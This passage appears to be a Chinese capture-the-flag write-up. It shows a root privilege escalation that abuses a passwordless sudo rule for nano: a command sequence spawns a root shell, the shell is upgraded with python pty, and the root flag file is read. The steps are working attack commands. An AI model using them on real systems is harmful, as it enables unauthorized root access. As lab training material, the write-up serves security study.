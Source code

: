 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

密码正确，找到nano使用root用户运行不需要密码

```
`sudo /bin/nano /opt/priv``Ctrl + r``Ctrl + x``reset; sh 1>&0 2>&0`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

Ctrl + r

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

Ctrl + x

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

输入reset; sh 1>&0 2>&0

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

输入后执行完画面没有任何反应，其实已经提权成功了，此时输入id再回车就能看到回显

```
id
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

看起来有点不舒服，用python切换成交互shell

```
`python3 -c 'import pty;pty.spawn("/bin/bash")'``export TERM=xterm``cd /root``ls`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```
cat root.txt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

拿到root.txt，游戏结束

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

END

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)
